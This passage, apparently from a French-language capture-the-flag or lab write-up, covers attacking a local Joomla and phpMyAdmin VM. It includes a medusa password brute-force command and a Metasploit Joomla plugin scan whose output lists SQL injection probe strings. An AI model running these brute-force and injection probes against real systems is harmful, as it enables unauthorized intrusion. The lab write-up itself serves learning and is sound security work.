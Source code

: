 ```plain
medusa -h 192.168.1.91 -U dico.txt -P candidates.txt -m DIR:phpmyadmin/setup -M http
```

et aussi avec un script fait maison pour le *check.php* ainsi que des scripts pour essayer de trouver d'autres fichiers + tentatives d'injection dans les entêtes HTTP.  

Au final j'ai même réussi à faire crasher le serveur *MySQL* en backend :D ce qui m'a poussé à chercher la précieuse astuce.  

Une fois le port 666 ouvert (on relance des scans, jusqu'à avoir de la chance, c'est comme au loto), tout va plus vite.  

On tombe sur une installation *Joomla* (un site sur lequel on voit une signature "Joomla templates" en bas. *Metasploit* a plusieurs modules pour ce CMS :  

```plain
msf> use auxiliary/scanner/http/joomla_plugins
msf auxiliary(joomla_plugins) > show options

Module options (auxiliary/scanner/http/joomla_plugins):

   Name       Current Setting                                               Required  Description
   ----       ---------------                                               --------  -----------
   PLUGINS    /data/metasploit-4.9/apps/pro/msf3/data/wordlists/joomla.txt  yes       Path to list of plugins to enumerate
   Proxies                                                                  no        Use a proxy chain
   RHOSTS                                                                   yes       The target address range or CIDR identifier
   RPORT      666                                                           yes       The target port
   TARGETURI  /                                                             yes       The path to the Joomla install
   THREADS    1                                                             yes       The number of concurrent threads
   VHOST                                                                    no        HTTP server virtual host

msf auxiliary(joomla_plugins) > set RHOSTS 192.168.1.91
RHOSTS => 192.168.1.91
msf auxiliary(joomla_plugins) > exploit

[+] 192.168.1.91:666 - Plugin: /administrator/ 
[+] 192.168.1.91:666 - Plugin: /administrator/index.php?option=com_djartgallery&task=editItem&cid[]=1'+and+1=1+--+ 
[+] 192.168.1.91:666 - Plugin: /administrator/index.php?option=com_searchlog&act=log 
[+] 192.168.1.91:666 - Plugin: /components/com_banners/ 
[+] 192.168.1.91:666 - Page: /index.php?option=com_banners
[+] 192.168.1.91:666 - Plugin: /components/com_content/ 
[+] 192.168.1.91:666 - Page: /index.php?option=com_content
[+] 192.168.1.91:666 - Plugin: /components/com_mailto/ 
[+] 192.168.1.91:666 - Plugin: /components/com_poll/ 
[+] 192.168.1.91:666 - Plugin: /components/com_search/ 
[+] 192.168.1.91:666 - Plugin: /components/com_user/controller.php 
[+] 192.168.1.91:666 - Plugin: /components/com_weblinks/ 
[+] 192.168.1.91:666 - Page: /index.php?option=com_weblinks
[+] 192.168.1.91:666 - Plugin: /includes/joomla.php 
[+] 192.168.1.91:666 - Plugin: /index.php?option=com_abc&view=abc&letter=AS&sectionid=' 
[+] 192.168.1.91:666 - Vulnerability: Potential SQL Injection
```
